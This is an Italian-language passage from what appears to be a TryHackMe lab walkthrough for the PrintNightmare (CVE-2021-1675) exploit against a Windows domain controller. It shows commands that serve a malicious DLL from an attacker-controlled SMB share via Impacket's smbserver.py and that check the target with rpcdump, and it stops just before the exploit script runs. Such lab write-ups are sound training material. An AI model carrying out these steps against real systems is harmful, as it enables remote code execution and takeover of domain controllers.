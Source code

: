 Ottimo, ora dovrai ospitare la DLL dannosa in una condivisione SMB in esecuzione sulla casella dell'attaccante. In questo esempio useremo **AttackBox .**

Di seguito viene spiegato come fare con **smbserver.py** di **Impacket** .

```
sudo apt install python3-impacket
```

```
locate smbserver.py
```

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py share /home/kali/Downloads/THM/share/ -smb2support
```

```shell-session
root@attackbox:~/Desktop/pn# smbserver.py share /root/Desktop/share/ -smb2support 
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Una breve spiegazione del comando nell'immagine sopra:

1. Questo è il nome della condivisione SMB per l'esecuzione dell'exploit. (Esempio: **\\ATTACKER_IP\share\malicious. dll** )
2. Questa è la cartella locale in cui verrà archiviata la DLL dannosa . (Esempio: **/root/Desktop/share/malicious. dll** )

Prima di eseguire alla cieca un exploit sul bersaglio, verifichiamo se il bersaglio soddisfa i criteri per sfruttarlo.

Controlla se il target è vulnerabile a questo exploit

```
python3 /usr/share/doc/python3-impacket/examples/rpcdump.py @10.10.105.71 | egrep 'MS-RPRN|MS-PAR'
```

```shell-session
root@attackbox:~/Desktop/pn# rpcdump.py @MACHINE_IP | egrep 'MS-RPRN|MS-PAR' 
Protocol: [MS-RPRN]: Print System Remote Protocol 
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```

Sì, sembra buono.  È finalmente giunto il momento di eseguire l'exploit. Vai alla posizione in cui hai scaricato il codice exploit da GitHub, che dovrebbe essere `/root/Desktop/pn/CVE-2021-1675`. 
```
cd CVE-2021-1675
```
Utilizzeremo lo script Python per sfruttare la vulnerabilità PrintNightmare sul controller di dominio Windows 2019.
